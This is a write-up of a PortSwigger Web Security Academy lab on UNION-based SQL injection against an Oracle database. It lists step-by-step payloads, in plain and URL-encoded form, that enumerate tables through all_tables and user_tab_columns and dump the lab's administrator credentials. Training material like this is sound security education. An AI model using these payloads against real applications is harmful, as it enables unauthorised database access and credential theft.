

# Lab: SQL injection attack, listing the database contents on Oracle

**Platform:** PortSwigger Web Security Academy  
**Category:** SQL Injection  
**Difficulty:** Practitioner

## 🎯 Objective
The application contains a SQL injection vulnerability in the product category filter. The goal is to use a `UNION` attack to enumerate the database schema on an Oracle database, extract the target table and columns, and dump the user credentials to log in as the `administrator`.

## 🕵️‍♂️ Analysis
Unlike MySQL or PostgreSQL, Oracle does not use the standard `information_schema` database dictionary. Instead, it relies on specific system views to store metadata:
1. `all_tables` contains the names of all tables the current user has access to.
2. `all_tab_columns` (or `user_tab_columns`) contains the column names for those tables.

By chaining `UNION SELECT` queries and targeting these specific Oracle system views, the database structure can be mapped and sensitive data extracted.

## 🚀 Payload & Execution
After confirming the initial injection point and column count, I performed a three-step enumeration and extraction attack.

### Step 1: Find the Users Table
I queried Oracle's system view for table names to locate the one storing credentials.
* **Payload:** `' UNION SELECT table_name, NULL FROM all_tables--`
* *(URL Encoded: `%27%20UNION%20SELECT%20table_name,%20NULL%20FROM%20all_tables--`)*
* **Discovery:** Identified a table named `USERS_BHPSYF`.

### Step 2: Find the Target Columns
Next, I queried the column view specifically for the discovered table to find the username and password fields. Note: Oracle string literals are case-sensitive.
* **Payload:** `' UNION SELECT column_name, NULL FROM user_tab_columns WHERE table_name = 'USERS_BHPSYF'--`
* *(URL Encoded: `%27%20UNION%20SELECT%20column_name,%20NULL%20FROM%20user_tab_columns%20WHERE%20table_name%20=%20%27USERS_BHPSYF%27--`)*
* **Discovery:** Identified the columns `USERNAME_DXRVXL` and `PASSWORD_MOEXQD`.

### Step 3: Extract the Credentials
Using the enumerated schema, I constructed the final payload to dump the contents of the target table.
* **Payload:** `' UNION SELECT USERNAME_DXRVXL, PASSWORD_MOEXQD FROM USERS_BHPSYF--`
* *(URL Encoded: `%27%20UNION%20SELECT%20USERNAME_DXRVXL,%20PASSWORD_MOEXQD%20FROM%20USERS_BHPSYF--`)*
* **Result:** The database returned the credentials, revealing the administrator password (`867rpjqe5s85xhtg7aw`). Logging in with these credentials solved the lab.

## 📸 Proof of Concept

